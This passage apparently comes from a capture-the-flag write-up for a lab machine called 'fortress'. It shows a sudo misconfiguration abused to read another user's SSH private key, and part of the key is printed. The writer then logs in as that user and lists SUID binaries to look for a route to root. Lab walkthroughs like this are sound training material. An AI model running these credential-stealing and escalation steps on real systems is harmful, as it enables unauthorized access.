 We can run ‘cat’ binary with ‘j4x0n’ user’s privileges. Let’s read this users SSH private key.

```
h4rdy@fortress:~$ sudo -u j4x0n cat /home/j4x0n/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAos93HTD06dDQA+pA9T/TQEwGmd5VMsq/NwBm/BrJTpfpn8av0Wzm
r8SKav7d7rtx/GZWuvj2EtP6DljnqhbpMEi05iAIBCEUHw+blPBd4em6J1LB38mdPiDRgy
pCfhRWTKsP8AJQQtPT1Kcb2to9pTkMenFVU3l2Uq9u5VviQu+FB/ED+65LYnw/uoojBzZx
W80eLpyvY1KyALbDKHuGFbJ3ufRQfoUz2qmHn5aOgrnUTH4xrVQkVbsrnI3nQLIJDIS94J
zH0U1nca2XBwRzhBc0f0Hpr61GKDFjzdsNEtfHK7NuO7wWQMiCvODXEPTMBwpoMhTfYJxo
h5kbE5QhNQENT2iEs0aRrk0OX/mURj3GrsRpLYlGIX9bKpwPlW+d9MquLdYlHxsWBIuv3x
```

Let’s exit this session and login with j4x0n key.

```
⛩\> ssh -i id_rsa_j4x0n j4x0n@fortress
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

j4x0n@fortress:~$ id
uid=1000(j4x0n) gid=1000(j4x0n) groups=1000(j4x0n),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

# Privilege Escalation - Root

```
j4x0n@fortress:~$ find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/sudo
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/at
/opt/bt
/bin/ping6
/bin/umount
/bin/ping
/bin/mount
/bin/su
/bin/fusermount
/sbin/ldconfig.real
```

